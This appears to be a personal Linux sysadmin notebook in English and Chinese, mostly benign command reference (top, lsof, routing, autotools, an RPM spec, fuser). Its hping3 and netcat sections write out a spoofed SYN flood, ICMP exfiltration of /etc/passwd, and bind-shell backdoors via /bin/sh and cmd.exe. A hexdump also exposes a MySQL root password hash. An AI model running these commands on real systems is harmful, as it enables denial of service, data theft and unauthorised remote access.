top - 23:47:32 up 179 days,  3:36,  1 user,  load average: 0.01, 0.03, 0.00
Tasks:  67 total,   1 running,  66 sleeping,   0 stopped,   0 zombie
Cpu(s):   0.7% user,   1.2% system,   0.0% nice,  98.0% idle
Mem:   1017136k total,   954652k used,    62484k free,   138280k buffers
Swap:  3068404k total,    22352k used,  3046052k free,   586576k cached

    Press l – to hide / show the load average. 1st header line.
    Press t – to hide / show the CPU states. 2nd and 3rd header line.
    Press m – to hide / show the memory information. 4th and 5th line.

** Save Top Configuration Settings – Press W

If you’ve made any interactive top command configurations suggested in the above examples, you might want to save those for all future top command output. Once you’ve saved the top configuration, next time when you invoke the top command all your saved top configuration options will be used automatically.

To save the top configuration, press W, which will write the configuration files to ~/.toprc. This will display the write confirmation message as shown below.

top - 23:47:32 up 179 days,  3:36,  1 user,  load average: 0.01, 0.03, 0.00
Tasks:  67 total,   1 running,  66 sleeping,   0 stopped,   0 zombie
Cpu(s):   0.7% user,   1.2% system,   0.0% nice,  98.0% idle
Mem:   1017136k total,   954652k used,    62484k free,   138280k buffers
Swap:  3068404k total,    22352k used,  3046052k free,   586576k cached
Wrote configuration to '/home/ramesh/.toprc'

* lsof
14. Lsof

Lsof stands for ls open files, which will list all the open files in the system. The open files include network connection, devices and directories. The output of the lsof command will have the following columns:

    COMMAND process name.
    PID process ID
    USER Username
    FD file descriptor
    TYPE node type of the file
    DEVICE device number
    SIZE file size
    NODE node number

    NAME full path of the file name.

To view all open files of the system, execute the lsof command without any parameter as shown below.

# lsof | more
COMMAND     PID       USER   FD      TYPE     DEVICE      SIZE       NODE NAME
init          1       root  cwd       DIR        8,1      4096          2 /
init          1       root  rtd       DIR        8,1      4096          2 /
init          1       root  txt       REG        8,1     32684     983101 /sbin/init
init          1       root  mem       REG        8,1    106397     166798 /lib/ld-2.3.4.so
init          1       root  mem       REG        8,1   1454802     166799 /lib/tls/libc-2.3.4.so
init          1       root  mem       REG        8,1     53736     163964 /lib/libsepol.so.1
init          1       root  mem       REG        8,1     56328     166811 /lib/libselinux.so.1
init          1       root   10u     FIFO       0,13                  972 /dev/initctl
migration     2       root  cwd       DIR        8,1      4096          2 /
skipped..

To view open files by a specific user, use lsof -u option to display all the files opened by a specific user.

# lsof -u ramesh
vi      7190 ramesh  txt    REG        8,1   474608   475196 /bin/vi
sshd    7163 ramesh    3u  IPv6   15088263               TCP dev-db:ssh->abc-12-12-12-12.

To list users of a particular file, use lsof as shown below. 
In this example, it displays all users who are currently using vi.

# lsof /bin/vi
COMMAND  PID  USER    FD   TYPE DEVICE   SIZE   NODE NAME
vi      7258  root   txt    REG    8,1 474608 475196 /bin/vi
vi      7300  ramesh txt    REG    8,1 474608 475196 /bin/vi

* hping3
Hping3介绍

　　Hping是用于生成和解析TCPIP协议数据包的开源工具。创作者是Salvatore Sanfilippo。目前最新版是Hping3，支持使用tcl脚本自动化地调用其API。Hping是安全审计、防火墙测试等工作的标配工具。

　　Hping优势在于能够定制数据包的各个部分，因此用户可以灵活对目标机进行细致地探测。

　　而Nmap团队也开发了一款类似的工具Nping，集成在Nmap的安装包中。
3.2  Hping3功能

　　Hping3主要有以下典型功能应用：
3.2.1  防火墙测试

　　使用Hping3指定各种数据包字段，依次对防火墙进行详细测试。请参考：http://0daysecurity.com/articles/hping3_examples.html

　　测试防火墙对ICMP包的反应、是否支持Traceroute、是否开放某个端口、对防火墙进行拒绝服务攻击（DoS attack）。

　　例如，以LandAttack方式测试目标防火墙（Land Attack是将发送源地址设置为与目标地址相同，诱使目标机与自己不停地建立连接）。

hping3 -S  -c 1000000 -a 10.10.10.10 -p 21 10.10.10.10

 
3.2.2  端口扫描

　　Hping3也可以对目标端口进行扫描。Hping3支持指定TCP各个标志位、长度等信息。

　　以下示例可用于探测目标机的80端口是否开放：

hping3 -I eth0  -S 192.168.10.1 -p 80

　　其中-Ieth0指定使用eth0端口，-S指定TCP包的标志位SYN，-p 80指定探测的目的端口。

　　hping3支持非常丰富的端口探测方式，Nmap拥有的扫描方式hping3几乎都支持（除开connect方式，因为Hping3仅发送与接收包，不会维护连接，所以不支持connect方式探测）。而且Hping3能够对发送的探测进行更加精细的控制，方便用户微调探测结果。

　　当然，Hping3的端口扫描性能及综合处理能力，无法与Nmap相比。一般使用它仅对少量主机的少量端口进行扫描。

 
3.2.3  Idle扫描

　　Idle扫描（Idle Scanning）是一种匿名扫描远程主机的方式，该方式也是有Hping3的作者Salvatore Sanfilippo发明的，目前Idle扫描在Nmap中也有实现。

　　该扫描原理是：寻找一台idle主机（该主机没有任何的网络流量，并且IPID是逐个增长的），攻击端主机先向idle主机发送探测包，从回复包中获取其IPID。冒充idle主机的IP地址向远程主机的端口发送SYN包（此处假设为SYN包），此时如果远程主机的目的端口开放，那么会回复SYN/ACK，此时idle主机收到SYN/ACK后回复RST包。然后攻击端主机再向idle主机发送探测包，获取其IPID。那么对比两次的IPID值，我们就可以判断远程主机是否回复了数据包，从而间接地推测其端口状态。


 
3.2.4  拒绝服务攻击

　　使用Hping3可以很方便构建拒绝服务攻击。

　　比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

hping3 -I eth0 -a 192.168.10.99 -S 192.168.10.33 -p 80 -i u1000

　　其他攻击如smurf、teardrop、land attack等也很容易构建出来。

 
3.2.5  文件传输

　　Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。

　　实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。

　　在接收端开启服务：

hping3 192.168.1.159--listen signature --safe  --icmp

　　监听ICMP包中的签名，根据签名解析出文件内容。

　　在发送端使用签名打包的ICMP包发送文件：

hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd

　　将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。

 
3.2.6  木马功能

　　如果Hping3能够在远程主机上启动，那么可以作为木马程序启动监听端口，并在建立连接后打开shell通信。与Netcat的后门功能类似。

　　示例：本地打开53号UDP端口（DNS解析服务）监听来自192.168.10.66主机的包含签名为signature的数据包，并将收到的数据调用/bin/sh执行。

　　在木马启动端：

hping3 192.168.10.66--listen signature --safe --udp -p 53 |/bin/sh

　　在远程控制端：

echo ls >test.cmd

hping3 192.168.10.44 -p53 -d 100 --udp --sign siganature --file ./test.cmd

　　将包含ls命令的文件加上签名signature发送到192.168.10.44主机的53号UDP端口，包数据长度为100字节。

　　当然这里只是简单的演示程序，真实的场景，控制端可以利益shell执行很多的高级复杂的操作。

* netcat
2     Netcat

核心应用：完成网络中各种辅助操作，被称作TCPIP的瑞士军刀


2.1  Netcat简介

　　Netcat用于从TCP/UDP连接中读取或发送网络数据。cat是Linux中查看或连接文件的命令，所以netcat本意为从网络上查看文件内容。而Netcat的作者Hobbit为它添加了非常丰富的功能，使它几乎能够完成网络操作中各式各样的操作，所以Netcat在网络安全领域被称作“TCPIP的瑞士军刀”（"Swiss-army knife forTCP/IP"）。

　　Netcat稳定版1.10由Hobbit在1996年3月发布（开源软件），之后作者没有再对其进行维护，但该工具十多年来依然在被广泛地使用，而且基于Netcat的各种衍生工具也层出不穷，他们在很多方面增强或扩展了Netcat的功能。

　　Nmap团队开发了Ncat作为Netcat的升级版本，增加了更多的功能，让其更能适应现代网络环境的需求。
2.2  Netcat功能
2.2.1  网络连接

　　类似于Telnet的功能，使用Netcat能够简便地登录到目标机上开放的端口。

　　例如，

nc mail.server.net 25

　　向mail.server.net的25号TCP端口发起连接。

 
2.2.2  端口扫描

　　Netcat同样可以进行端口扫描，但与Nmap相比，它的性能及使用范围都很有限。如果只想简单地探测几个端口的开放状态，使用Netcat也可行。

　　端口扫描格式如下：

nc –v –z hostnameport[s]

　　实例：

nc –v –z www.yahoo.com 80 22

　　扫描yahoo网站的80、22端口，判断其是否开放。

 
2.2.3  文件传输

　　Netcat最初的用途就是文件传输，它可以像Cat命令一样将读取的文件重定向到网络上的另外的文件。Netcat在网络应用中既可以当做服务器端，开启本机一个监听端口，也可以作为客户端向其他服务器端口发起连接。所以，文件传输，即是在两端分别运行Netcat。

　　在接受端，运行Netcat开启端口监听服务。

nc –L –p 4444 >receivedfile.zip 

　　此处-L启动监听模式（即作为服务器端），开启4444端口，将接受到的数据写入到文件somefile.zip中。

　　而在发送端，只需连接该服务器端开放的端口，并选择需要发送的文件。

nc 192.168.1.43 4444< testfile.zip

　　使用<符号输入testfile.zip文件，并向目标机的4444端口发起连接。在建立连接成功后，发送端会将文件传送到接收端，接受端将收到的数据写入receivedfile.zip文件。整个过程，比较类似于cat命令，因为具体的网络传输过程由Netcat负责。

 
2.2.4  开启后门

　　Netcat甚至也可以用作后门程序。如果用户已经侵入到一台计算机，那么让该计算机在开机后（或其他条件下）自动启动Netcat，打开指定的端口，等待用户连接，在连接成功后执行特定程序（如cmd.exe，以便远程执行命令）。

nc –L –p 4444 –e cmd.exe

　　以监听模式启动Netcat，开启TCP端口4444，在与客户端成功建立连接后，执行cmd.exe程序（-e cmd.exe，此处为用户打开命令行执行窗口，用户可以通过命令操作此计算机）。

　　在客户端，直接连接目标机的4444端口即可。

nc 192.168.1.43 4444

　　连接后，客户端可以接收到一个命令行窗口。

 
2.2.5  端口转发

　　端口转发（PortForwarding）也是Netcat比较实用的用法。先将Netcat作为服务器接收其他主机的连接，然后将连接的数据转发另外的目标机端口。

　　比如：

mkfifo backpipe

nc -l 12345  0<backpipe | nc www.google.com 801>backpipe

　　比如，此处开启端口12345，作为www.google.com的代理。其他无法直接登陆google的用户可以通过此代理端口来与google进行交互。这里创建了一个fifo，是为实现双向数据通讯，因为管道运算符本身是单向的。

 
2.2.6  标语提取

　　标语提取（BannerGrabbing）的含义是抓取应用程序在建立连接后打印的标语提示信息，例如建立FTP连接后，FTP服务器可能打印出提示信息：FTP xxx.xxx等数据。

　　所以，根据服务器打印的信息，有时可以推断出对方服务程序的详细版本。这也是Nmap进行服务与版本侦测采用方法。

　　例如，首先创建一份文件，包含以下文本：
[plain] view plain
copy

HEAD / HTTP/1.0  
<return>  
<return>  

　　然后，将此文件发送到目标服务器的80端口，诱发对方发送HTTP首部数据。

cat file>nc -vv -w 2 www.cnn.com 80 >output.txt

　　然后可从output.txt查看到对方的发送的HEAD的标语信息。

 

 
2.2.7  其他功能

　　Netcat其他常用的功能：
支持完全的DNS转发、逆向检查
支持用户指定源端口
支持用户指定源端IP地址
内置宽松源路由能力（loosesource-routing capability）
慢速发送模式，可指定每隔多少秒发送一行文本
将发送或接收数据以16进制格式导出
* 查看网卡信息
linux-19:~ # ethtool eth1
Settings for eth1:
        Supported ports: [ TP ]
        Supported link modes:   10baseT/Half 10baseT/Full
                                100baseT/Half 100baseT/Full
                                1000baseT/Full
        Supports auto-negotiation: Yes
        Advertised link modes:  10baseT/Half 10baseT/Full
                                100baseT/Half 100baseT/Full
                                1000baseT/Full
        Advertised pause frame use: No
        Advertised auto-negotiation: Yes
        Speed: 1000Mb/s
        Duplex: Full
        Port: Twisted Pair
        PHYAD: 1
        Transceiver: internal
        Auto-negotiation: on
        MDI-X: Unknown
        Supports Wake-on: g
        Wake-on: d
        Link detected: yes
* lspci -vvv
* ipvsadmin
  ipvsadm -ln
* curl
  
  -H 指定特定的http header
  curl -H 'Accept-Languange: en-us:q=2.2250738585072012e-308' http://www.hismarttv.com

* 查看路由表
  ip route

* man
  一些命令的没用--help这样的帮助。
  可以使用man查看其选项说明。
  例如df命令
  可以man df，查看其各个选项的使用说明。
* hexdump
  很好的一个选项： -C 输出十六进制和对应字符
#+begin_example
linux-107:/ # hexdump -C /usr/local/fountain/3rdparty/mysql/mysql/user.MYD
00000000  05 00 57 00 27 00 00 00  00 00 00 00 fc fb 03 09  |..W.'...........|
00000010  6c 6f 63 61 6c 68 6f 73  74 04 72 6f 6f 74 2a 44  |localhost.root*D|
00000020  41 45 36 33 44 33 33 34  32 39 44 35 35 41 32 35  |AE63D33429D55A25|
00000030  35 33 46 46 03 00 2f 01  ff 03 09 6c 69 6e 75 78  |53FF../....linux|
00000040  2d 31 30 37 04 72 6f 6f  74 00 02 02 02 02 02 02  |-107.root.......|
00000050  02 02 02 02 02 02 02 02  02 02 02 02 02 02 02 02  |................|
00000060  02 02 02 02 02 02 01 00  03 00 2f 01 ff 03 09 31  |........../....1|
00000070  32 37 2e 30 2e 30 2e 31  04 72 6f 6f 74 00 02 02  |27.0.0.1.root...|
00000080  02 02 02 02 02 02 02 02  02 02 02 02 02 02 02 02  |................|
00000090  02 02 02 02 02 02 02 02  02 02 01 00 03 00 2b 01  |..............+.|
000000a0  ff 03 09 6c 6f 63 61 6c  68 6f 73 74 00 00 01 01  |...localhost....|
#+end_example  
* 子接口
    **添加子接口IP

    #ifconfig eth2:1 192.168.4.23 netmask 255.255.255.0 up

    **去掉子接口IP

    #ifconfig eth2:1 192.168.4.23 netmask 255.255.255.0 down

    **指定原IP ping

    #ping -I 192.168.4.23 -c 192.168.12.100

* linux系统信息
用硬件检测程序kuduz探测新硬件：service kudzu start ( or restart)
 查看CPU信息：cat /proc/cpuinfo
 查看板卡信息：cat /proc/pci
 查看PCI信息：lspci (相比cat /proc/pci更直观）
 查看内存信息：cat /proc/meminfo
 查看USB设备：cat /proc/bus/usb/devices
 查看交换分区信息: cat /proc/swap
 查看内存使用情况： free
 查看键盘和鼠标:cat /proc/bus/input/devices
 查看系统硬盘信息和使用情况：fdisk & disk - l & df
 查看各设备的中断请求(IRQ):cat /proc/interrupts
 查看系统体系结构：uname -a
查看Linux的版本： cat /etc/issue  或 cat /proc/version 
查看CPU信息（型号）： # cat /proc/cpuinfo | grep name | cut -f2 -d: | uniq -c
查看CPU实际上核的数： # cat /proc/cpuinfo | grep physical | uniq -c
当前CPU运行在32bit模式下:# getconf LONG_BIT
结果大于0, 说明支持64bit计算. lm指long mode, 支持lm则是64bit: # cat /proc/cpuinfo | grep flags | grep ' lm ' | wc -l
查看当前操作系统发行版信息：  # cat /etc/issue | grep Linux
查看机器型号： # dmidecode | grep "Product Name" 
查看网卡信息： # dmesg | grep -i eth

查看进程开始时间、结束时间、运行时间：ps -o stime,etime  28486 （SPID)


系统 
# uname -a               # 查看内核/操作系统/CPU信息
# head -n 1 /etc/issue   # 查看操作系统版本
# cat /proc/cpuinfo      # 查看CPU信息
# hostname               # 查看计算机名
# lspci -tv              # 列出所有PCI设备
# lsusb -tv              # 列出所有USB设备
# lsmod                  # 列出加载的内核模块
# env                    # 查看环境变量

资源 
# free -m                # 查看内存使用量和交换区使用量
# df -h                  # 查看各分区使用情况
# du -sh <目录名>        # 查看指定目录的大小
# grep MemTotal /proc/meminfo   # 查看内存总量
# grep MemFree /proc/meminfo    # 查看空闲内存量
# uptime                 # 查看系统运行时间、用户数、负载
# cat /proc/loadavg      # 查看系统负载

磁盘和分区 
# mount | column -t      # 查看挂接的分区状态
# fdisk -l               # 查看所有分区
# swapon -s              # 查看所有交换分区
# hdparm -i /dev/hda     # 查看磁盘参数(仅适用于IDE设备)
# dmesg | grep IDE       # 查看启动时IDE设备检测状况

网络 
# ifconfig               # 查看所有网络接口的属性
# iptables -L            # 查看防火墙设置
# route -n               # 查看路由表
# netstat -lntp          # 查看所有监听端口
# netstat -antp          # 查看所有已经建立的连接
# netstat -s             # 查看网络统计信息

进程 
# ps -ef                 # 查看所有进程
# top                    # 实时显示进程状态

用户 
# w                      # 查看活动用户
# id <用户名>            # 查看指定用户信息
# last                   # 查看用户登录日志
# cut -d: -f1 /etc/passwd   # 查看系统所有用户
# cut -d: -f1 /etc/group    # 查看系统所有组
# crontab -l             # 查看当前用户的计划任务

服务 
# chkconfig --list       # 列出所有系统服务
# chkconfig --list | grep on    # 列出所有启动的系统服务

程序 
# rpm -qa                # 查看所有安装的软件包
* linux 添加静态路由 

linux下静态路由修改命令
 方法一：
 添加路由
 route add -net 192.168.0.0/24 gw 192.168.0.1
 route add -host 192.168.1.1 dev 192.168.0.1
 删除路由
 route del -net 192.168.0.0/24 gw 192.168.0.1

 add 增加路由
 del 删除路由
 -net 设置到某个网段的路由
 -host 设置到某台主机的路由
 gw 出口网关 IP地址
 dev 出口网关 物理设备名

 增 加默认路由

 route add default gw 192.168.0.1
 默认路由一条就够了

 route -n 查看路由表

 方法二：
 添加路由
 ip route add 192.168.0.0/24 via 192.168.0.1
 ip route add 192.168.1.1 dev 192.168.0.1
 删除路由
 ip route del 192.168.0.0/24 via 192.168.0.1

 add 增加路由
 del 删除路由
 via 网关出口 IP地址
 dev 网关出口 物理设备名

 增加默认路由
 ip route add default via 192.168.0.1 dev eth0
 via 192.168.0.1 是我的默认路由器

 查看路由信息
 ip route

保存路由设置，使其在网络重启后任然有效 
在/etc/sysconfig/network-script/目录下创建名为route- eth0的文件 
vi /etc/sysconfig/network-script/route-eth0 
在此文件添加如下格式的内容 

192.168.1.0/24 via 192.168.0.1 

重启网络验证 

 

 

/etc/rc.d/init.d/network中有这么几行：

 # Add non interface-specific static-routes.
 if [ -f /etc/sysconfig/static-routes ]; then
 grep "^any" /etc/sysconfig/static-routes | while read ignore args ; do
 /sbin/route add -$args
 done
 fi 

 也就是说，将静态路由加到/etc/sysconfig/static-routes 文件中就行了。

 

如加入：
 route add -net 11.1.1.0 netmask 255.255.255.0 gw 11.1.1.1

 则static-routes的格式为
 any net 11.1.1.0 netmask 255.255.255.0 gw 11.1.1.1

* 用GCC输出带C源代码注释的汇编列表文件
  gcc -c -g -Wa,-adlhn ee.c >  ee.anno.s
  由此生成的ee.anno.s即是ee.c对应的C与汇编混排的列表
* 自动化编译autotools的使用
具体操作步骤

 准备好源码文件helloworld.c 及 Makefile.am文件。

 执行autoscan生成configure.scan，将configure.scan改为configure.in并修改configure.in

 然后执行：
 aclocal
 autoheader
 touch README NEWS AUTHORS ChangeLog
 autoconf
 automake --add-missing
 ./configure
 make
 ./helloworld ;         ---运行程序
 make dist            ---制作发布的包
 make dist            ---制作发布的包并对其进行测试检查
 make clean        --清除make命令产生的目标文件及可执行文件

automake autoconf 自动化编译说明

利用autotools自动生成makefile文件，自动化编译自己的工程，autotools工具只需要用户输入简单的目标文件、依赖文件、文件目录就可以轻松地生成Makefile了。

首先安装autotools系列工具，包括aclocal、autoscan、automake、autoheader、autoconf等。

可以通过rpm –qa | grep auto来查看各个应用程序，如果没有

yum install automake即可安装。

详细步骤：
1.建立自己的工程，编写源文件并创建Makefile.am

1)最顶层目录名为模块名 helloworld

源文件放在模块下面的src子目录,例如helloworld/src

2) 在src 下面，创建源文件main.c

3) 在helloworld目录下面创建Makefile.am文件--（为Makefile.in的模板文件，.am扩展名是automake的缩写）,内容如下: 

SUBDIRS=src 

4) 在helloworld/src 目录下创建Makefile.am文件 内容如下：

bin_PROGRAMS=helloworld 

helloworld_SOURCES=main.c 

其中，PROGRAMS表示要产生的是可执行文件，有多个可执行文件文件时，可用空格分开，
而bin表示可执行文件的安装目录SOURCES表示生成可执行文件需要的源文件，
有多个源文件时，也用空格分开。比如想生成两个可执行程序helloworld1和helloworld2，那么就需要写成：

bin_PROGRAMS=helloworld1 helloworld2

helloworld1_SOURCES=main1.c 

helloworld2_SOURCES=main2.c 
2.运行 autoscan --创建autoconf的模板

autoscan      --将生成configure.scan和autoscan.log文件，它会在给定目录及其子目录树中检查源文件，
若没有给定目录，就在当前目录及其子目录树中进行检查。它会搜索源文件以寻找一般的移植性问题并且创建一个文件configure.scan，通过这个文件我们可以创建autoconf需要的模版文件。


1).目录下面生成了configure.scan 文件，利用命令

mv configure.scan configure.in  --将生成的configure.scan更改为autoconf需要的文件模版configure.in

configure.in 文件为autoconf 的模板文件，内容如下所示，其中#行为注释行：

 # -*- Autoconf -*- 
 # Process this file with autoconf to produce a configure script. 

AC_PREREQ([2.68]) 
AC_INIT([FULL-PACKAGE-NAME], [VERSION], [BUG-REPORT-ADDRESS]) 
AC_CONFIG_SRCDIR([src/main.c]) 
AC_CONFIG_HEADERS([config.h]) 

 # Checks for programs. 
AC_PROG_CC 
 # Checks for libraries. 
 # Checks for header files. 
 # Checks for typedefs, structures, and compiler characteristics. 
 # Checks for library functions. 
AC_CONFIG_FILES([Makefile 
src/Makefile]) 
AC_OUTPUT 

2). 修改configure.in文件

将
AC_INIT([FULL-PACKAGE-NAME], [VERSION], [BUG-REPORT-ADDRESS]) 
修改为：
AC_INIT(helloworld, 0.1, shaoguangleo@gmail.com)     =--初始化autoconf 
并添加
AM_INIT_AUTOMAKE(helloworld, 0.1)     =--初始化automake 必须的宏，这个如果不添加就会导致在autoconf时出错，
信息大概为configure.in:no proper invocation of AM_INIT_AUTOMAKE was found

3.运行 aclocal -- 复制所有的宏命令
aclocal 
备注：configure.in 里面包含了一系列的宏命令，运行aclocal的目的是把工程需要的宏命令展开。
（aclocal.m4 就是configure.in中用到的宏定义）会生成autom4te.cache文件夹和aclocal.m4文件。

4.运行autoheader --生成配置头文件的模板config.h.in并创建4个必要的文件
autoheader 
备注：此时再创建4个必要的文件
touch README NEWS AUTHORS ChangeLog 

README :描述模块的功能，用法和注意事项 
NEWS : 描述模块最新的动态 
AUTHORS : 模块的作者及联系方式 
ChangeLog : 记录模块的修改历史

上述几个文件可以暂时为空。
5. automake --add-missing   -- 生成Makefiel.in和所需要的脚本

automake --add-missing   --其中add-missing选项会让automake自动添加一些必须的脚本文件。

6. autoconf -- 生成configure脚本

autoconf     
--生成configure脚本

7. ./configure -- 生成最终的Makefile文件

./configure 

configure 通常有两个参数
1) --prefix 用来制定安装目录 linux默认/usr/local
2) --host 用于交叉编译

8 make =-- 编译
make 

9.make install

* nohup 
　nohup命令：如果你正在运行一个进程，而且你觉得在退出帐户时
  该进程不应结束，那么可以使用nohup命令。该命令可以在你退出帐户/关闭终端之后继续运行相应的进程。nohup就是不挂起的意思( no hang up)。
  该命令的一般形式为：nohup command &

* 文件重命名
   开始使用rename命令，很憋气，rename oldname newname 就是不管用。
   其实rename更适合来批量修改文件名
   如把当前目录下的以.htm为扩展名的文件改为.html
   rename .htm .html *
   如果修改单个文件名可以用mv命令
   mv oldname newname
   
* ^X mode 
  使用vi时，保存文件使用emacs的方式 C-x C-s
  进入vim 进入^X mode。
  这时使用C-q返回正常状态。
* rpm包制作
使用脚本将需要安装的文件压缩，打包
tar czvf /usr/src/packages/SOURCES/nagios-hids.tar.gz nagios/daemon-init nagios/base/nagios nagios/base/nagiostats nagios/sample-config/*.cfg
然后执行
rpmbuild -ba nagios-hids.spec
就会生成对应的RPM包：/usr/src/packages/RPMS/x86_64/nagids-3.5.0-1.x86_64.rpm

nagios-hids.spec：
#+begin_example
*定义变量*
%define name nagids
%define version 3.5.0
%define release 1
%define nsusr nagios
%define nsgrp nagios
%define cmdgrp nagiocmd
%define wwwusr apache
%define wwwgrp apache
%define _prefix /usr/local/fountain/nagios
%define _logdir %{_prefix}/var
%define _checkresultdir %{_prefix}/var/spool/checkresults
%define _cfgdir %{_prefix}/etc
%define _bindir %{_prefix}/bin
%define _cgidir %{_prefix}/sbin
%define _libexecdir %{_prefix}/libexec
%define _plugindir %{_prefix}/plugin
%define INSTALL_OPTS -o nagios -g nagios

Summary: Host-based Intrusion Detection System (powered by nagios)
Name: nagids
Version:%{version}
Release:%{release}
Source: nagios-hids.tar.gz
License: GPL
Requires: zlib >= 1.2.3
Packager: Nobody
Group: Application
AutoReq: no
URL: http://hitv.hisense.com
*安装或者编译时使用的虚拟目录*
Buildroot:/usr/src/packages/BUILDROOT/%{name}-%{version}-%{release}.%{_arch}
Vendor: HISENSE MEDIA NETWORKS Co.,LTD
Distribution: SUSE Linux Enterprise 11 SP1 & SP2

%description 
Host-based Intrusion Detection System (powered by nagios)
*预处理脚本*
%prep
*解压源码*
%setup -c

%build

*把软件安装到虚拟的根目录中*
%install
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_libexecdir}
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_logdir}
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_plugindir}
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_logdir}/archives
install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_checkresultdir}

install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_bindir}

cd nagios
install -c -m 774 base/nagios ${RPM_BUILD_ROOT}/%{_bindir}
install -c -m 774 base/nagiostats ${RPM_BUILD_ROOT}/%{_bindir}

install -c -m 755 -d -o root -g root ${RPM_BUILD_ROOT}/etc/rc.d
install -c -m 755 -o root -g root daemon-init ${RPM_BUILD_ROOT}/etc/rc.d/nagios

install -c -m 775 -d ${RPM_BUILD_ROOT}/%{_cgidir}

for file in `ls cgi/*.cgi`; do \
    install -c -m 775  $file ${RPM_BUILD_ROOT}/%{_cgidir}; \
done
install -c -m 775 $(COMMAND_OPTS) -d ${RPM_BUILD_ROOT}/%{_logdir}/rw
chmod g+s ${RPM_BUILD_ROOT}/%{_logdir}/rw

install -c -m 775  -d ${RPM_BUILD_ROOT}/%{_cfgdir}
install -c -m 775  -d ${RPM_BUILD_ROOT}/%{_cfgdir}/objects
install -c -b -m 664 sample-config/nagios.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/nagios.cfg
install -c -b -m 664 sample-config/cgi.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/cgi.cfg
install -c -b -m 660 sample-config/resource.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/resource.cfg
install -c -b -m 664 sample-config/template-object/templates.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/templates.cfg
install -c -b -m 664 sample-config/template-object/commands.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/commands.cfg
install -c -b -m 664 sample-config/template-object/contacts.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/contacts.cfg
install -c -b -m 664 sample-config/template-object/services.cfg ${RPM_BUILD_ROOT}/%{_cfgdir}/objects/services.cfg
cd ..
*清理临时文件*
%clean
rm -rf ${RPM_BUILD_ROOT}
rm -rf ${RPM_BUILD_DIR}/*
*定义哪些文件或者目录会放入rpm中*
%files
/etc/rc.d/nagios
%dir %{_bindir}
%{_bindir}/*
%dir %{_cfgdir}
%{_cfgdir}/*
%dir %{_cgidir}
%{_cgidir}/*
%dir %{_logdir}
%dir %{_logdir}/archives
%dir %{_logdir}/rw
%dir %{_checkresultdir}
%dir %{_libexecdir}
%dir %{_plugindir}
*rpm安装前执行动作*
%pre 
/usr/bin/getent group %{nsgrp} >/dev/null || /usr/sbin/groupadd %{nsgrp} 2>&1
/usr/bin/getent group %{cmdgrp} >/dev/null || /usr/sbin/groupadd %{cmdgrp} 2>&1
/usr/bin/id %{nsusr} >/dev/null 2>&1 || \
    /usr/sbin/useradd -r -d %{_prefix} -s /bin/sh -c "%{nsusr}" %{nsusr} -G %{nsgrp},%{cmdgrp} || \
    %nnmmsg Unexpected error adding user "%{nsusr}". Aborting install process.

*rpm安装后执行的脚本*
%post
chown -R nagios:nagios %{_prefix}
/sbin/chkconfig --add nagios
/sbin/service nagios start > /dev/null 2>&1
*rpm卸载前执行的脚本*
%preun
*$1代表动作 0:卸载 1:安装 2:升级*
if [ $1 = 0 ]; then
    :
    /sbin/service nagios stop > /dev/null 2>&1
    /sbin/chkconfig --del nagios
fi
*rpm卸载后执行的脚本*
%postun

if [ $1 = 0 ]; then
    echo "postun...">> /tmp/yxf.txt
    /bin/grep '^%{nsusr}:' /etc/passwd > /dev/null 2>&1 && /usr/sbin/userdel %{nsusr} || %nnmmsg "User %{nsusr} could not be deleted."
    /bin/grep '^%{nsgrp}:' /etc/group > /dev/null 2>&1 && /usr/sbin/groupdel %{nsgrp} || %nnmmsg "Group %{nsgrp} could not be deleted."
    /bin/grep '^%{cmdgrp}:' /etc/group > /dev/null 2>&1 && /usr/sbin/groupdel %{cmdgrp} || %nnmmsg "Group %{cmdgrp} could not be deleted."
    rm -rf %{_prefix}
fi
%changelog
...
#+end_example

* fuser
** 查询文件和目录使用者
fuser最基本的用法是查询某个文件或目录被哪个进程使用：
#+begin_example
 # fuser /root
 /root:               17923c 24869c
#+end_example
以上命令查询了/root目录被哪些进程使用，输出包含进程的PID以及字符’c’。字符’c’指示了进程的工作目录，使用以下命令可进行验证：
#+begin_example
 # ls -l /proc/17923/cwd
 lrwxrwxrwx 1 root root 0 Apr 19 09:02 /proc/17923/cwd -> /root
#+end_example 

PID后跟的字符说明了进程以何种方式与该目录/文件关联，有以下关联方式：
　　c  指示进程的工作目录
　　e  指示该文件为进程的可执行文件(即进程由该文件拉起)
　　f  指示该文件被进程打开，默认情况下f字符不显示
　　F  指示该文件被进程打开进行写入，默认情况下F字符不显示
　　r  指示该目录为进程的根目录
　　m  指示进程使用该文件进行内存映射，抑或该文件为共享库文件，被进程映射进内存

使用-v选项将显示更全的信息：
#+begin_example
 # fuser -v /root
             USER     PID    ACCESS   COMMAND
 /root:      root    17923    ..c..      bash
             root    24869    ..c..      atop
#+end_example

下面我们使用一个端口监听的例子，来看可执行文件、socket端口使用进程的信息查询。
#+begin_example
 # ./socket &
#+end_example
以上socket程序是一个使用C编写的小程序，起一个TCP服务端，监听9999端口，代码请查附件。

执行完该程序时候，我们使用fuser进行查询：
#+begin_example
# fuser -v socket
             USER    PID   ACCESS   COMMAND
socket:    root    11861    ...e.   socket
#+end_example
可以看到PID为11861与socket文件的关联方式为'e'，与上表所列相符。
 
** 查询socket使用者
除了查询文件、目录的相关使用进程，我们还可以对socket端口的使用者进行查询。还是使用上面socket程序，我们对端口9999进行如下查询：
#+begin_example
 # fuser -v -n tcp 9999
               USER     PID    ACCESS   COMMAND
 9999/tcp:     root     11861   F....    socket
#+end_example
  查询使用UDP 2007端口的进程
